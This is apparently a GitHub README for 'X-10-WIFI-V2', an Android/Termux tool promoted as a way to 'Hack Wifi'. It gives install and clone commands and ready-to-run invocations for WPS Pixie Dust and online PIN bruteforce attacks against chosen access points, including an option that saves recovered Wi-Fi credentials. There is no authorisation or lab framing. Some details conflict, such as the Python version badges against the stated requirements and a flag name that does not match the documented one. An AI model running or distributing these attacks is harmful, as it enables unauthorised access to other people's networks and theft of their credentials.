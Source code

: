 ### X-10-WIFI-V2

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&color=35F700&background=3C8BFF00&random=false&width=435&lines=Thanks+for+use+my+command+; please+don't+forget+start+;Hi+Im+ARIF_MODZ;Facebook%3A+Arifmoodz" alt="Typing SVG" /></a>

[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&random=false&width=435&lines=im-ARIF-thanks-for-my-cmd-use)](https://git.io/typing-svg)

### Hello, Welcome .. 
Hack Wifi ..Using  *X-10-WIFI-V2* by Termux/Android, ARIF-😫!!
<br><br>
![devoleper](https://i.postimg.cc/6Q0XPjdt/IMG-20240404-202439-804.jpg)
<br><br>
 

### HACK WIFI
<p align="center"><img src="https://user-images.githubusercontent.com/75953873/115979290-66309900-a55b-11eb-8259-4b125efc42bb.png"></p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)


#### Manually
**COMMAND 1**
```console
pkg update && pkg upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage
 ```
**COMMAND 2**
 ```console
git clone --depth 1 https://github.com/Versionx10/X-10-WIFI-V2
 ```

#### COMMAND 3 Running  command 😪
 ```console
sudo python X-10-WIFI-V2/X-10-WIFI-V2.py -i wlan0 -K 
 ```





# Overview
**X-10-WIFI-V2** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).


## [Termux](https://termux.com/)
Please note that root access is required.  


### Hack WIfi Using Termux! (Requires Root)

# Usage
```
 X-10-WIFI-V2.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```
#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**


## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running X-10-WIFI-V2 with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running X-10-WIFI-V2 with the `--mtk-wifi` flag to initialize Wi-Fi device driver.

## CONNECT WITH US :


<a href="https://github.com/Versionx10"><img title="Github" src="https://img.shields.io/badge/VERSION X-10-brightgreen?style=for-the-badge&logo=github"></a>

[![Instagram](https://img.shields.io/badge/FACEBOOK-FOLLOW-red?style=for-the-badge&logo=facebook)](https://www.facebook.com/Arifmoodz)
[![Instagram](https://img.shields.io/badge/WHATSAPP-CHAT-red?style=for-the-badge&logo=whatsapp)](https://wa.me/+8801666666666)
[![Instagram](https://img.shields.io/badge/INSTAGRAM-FOLLOW-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/nai)
[![Instagram](https://img.shields.io/badge/WEBSITE-VISIT-yellow?style=for-the-badge&logo=blogger)](https://versionx10.co)
[![Instagram](https://img.shields.io/badge/TELEGRAM-CHANNEL-red?style=for-the-badge&logo=telegram)](https://t.me/Versionx10)

